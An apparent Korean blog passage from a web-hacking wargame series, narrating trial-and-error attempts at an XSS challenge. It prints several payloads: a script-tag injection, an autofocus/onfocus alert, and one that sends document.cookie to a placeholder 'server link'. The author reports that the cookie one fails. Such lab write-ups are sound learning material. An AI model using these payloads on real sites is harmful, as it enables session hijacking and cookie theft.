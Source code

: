```html
"> <script> alert(1) </script> <input + value ="
```



![img](https://blackperl-security.gitlab.io/img/post/2018-08-17-webtour-03/web_xss3_03.png)



근데 안되요…ㅠㅠ



우선 문제를 풀기위해 삽질을 시작한다!…

삽질 100번하니 1개의 돌을 찾았어요!



```html
<input type="">
```


![img](https://blackperl-security.gitlab.io/img/post/2018-08-17-webtour-03/web_xss3_04.png)



이렇게 input type창이 생성됩니다.

여기서 드는 생각!
**내가 넣은 input창을 공격해서 쿠키를 가져올 순 없을까?**

그래서 이렇게 해보았습니다.



```html
<input autofocus onfocus=alert(1)>
```


![img](https://blackperl-security.gitlab.io/img/post/2018-08-17-webtour-03/web_xss3_08.png)



와 이렇게 하면 알림창 떠요! 끝났다 끝났어!
*(어? 근데 확인을 눌러도 계속 알림창이 떠요?)*

두구두구 기대하시라!



```html
<input type="" name="1" onfocus=location.href="server link"+document.cookie autofocus>
```



ㅎ..안되네요!ㅎ..

도대체 어떻게 푸는거냐구요ㅠㅠㅠㅠ



------

![img](https://blackperl-security.gitlab.io/img/post/2018-08-17-webtour-03/web_xss3_05.png)사람이 생각하기 싫으면 하는 일.jpg
